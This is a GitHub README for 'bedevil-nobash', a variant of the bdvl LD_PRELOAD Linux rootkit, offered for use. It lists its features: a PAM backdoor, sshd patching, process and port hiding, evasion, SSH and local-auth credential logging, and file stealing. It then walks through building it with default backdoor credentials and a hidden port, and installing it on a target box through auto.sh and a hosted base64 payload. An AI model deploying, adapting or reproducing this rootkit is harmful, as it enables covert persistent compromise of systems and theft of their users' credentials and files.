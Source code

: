# bedevil-nobash

<img src=https://i.imgur.com/PyO00vy.png alt="icon" />

</br>

 * This is the same as the original [bdvl](https://github.com/kcaaj/bdvl) but however this version is not dependent on bash at all for setup or installation.
   * __At all.__
   * So naturally this repository is much different from the original.
   * This repository was created with _only_ the use of `auto.sh` in mind.
 * I'll detail information specific to this branch in this README, but for all other information such as stuff on certain functionalities please go check the original version out.

## Overview
 * This version of bdvl has the following functionalities enabled (_and are not that easily disabled_)
   * USE_PAM_BD
   * PATCH_SSHD_CONFIG
   * HIDE_SELF
   * FORGE_MAPS
   * HIDE_PORTS
   * DO_REINSTALL
   * DO_EVASIONS
   * READ_GID_FROM_FILE
     * AUTO_GID_CHANGER
     * HIDE_MY_ASS
   * BACKDOOR_UTIL
     * SET_MAGIC_ENV_UNHIDE
     * BACKDOOR_PKGMAN
   * LOG_LOCAL_AUTH
   * LOG_SSH
   * FILE_STEAL
   * USE_CRYPT
 * The dynamic linker libraries are patched at installation. This version of the rootkit is not designed to do anything otherwise, really.

<hr>

## Usage
 * This repository is extremely simple in comparison to the original.
 * Getting an installation up & running is a matter of editing your backdoor settings in `setup.py` & just few brief commands.
```
$ make
rm -rf new_inc
python setup.py
Username: changeme
Password: changeme
Hidden port: 13337
Install directory: /etc/hostslpxdf
        bash etc/ssh.sh changeme <host> 13337
cc -std=gnu99 -Wall -Inew_inc -g0 -O0 -shared -Wl,-soname,bdvl.so.x86_64 -fPIC new_inc/bedevil.c -lc -ldl -lcrypt -lpcap -o bdvl.so.x86_64
cc -m32 -std=gnu99 -Wall -Inew_inc -g0 -O0 -shared -Wl,-soname,bdvl.so.i686 -fPIC new_inc/bedevil.c -lc -ldl -lcrypt -lpcap -o bdvl.so.i686 2>/dev/null
make: [Makefile:17: kit] Error 1 (ignored)
strip bdvl.so*
```
 * When it comes to the actual installation, you have two choices.
 * Host the `new_inc.b64` file somewhere accessible from the target box & point the first variable in `auto.sh` to wherever `new_inc.b64` may be.
 * Or, on the box, when running `auto.sh` supply it a path as an argument to this file available locally.
 * `auto.sh` will do the rest of the work for when it comes to installation on the box.
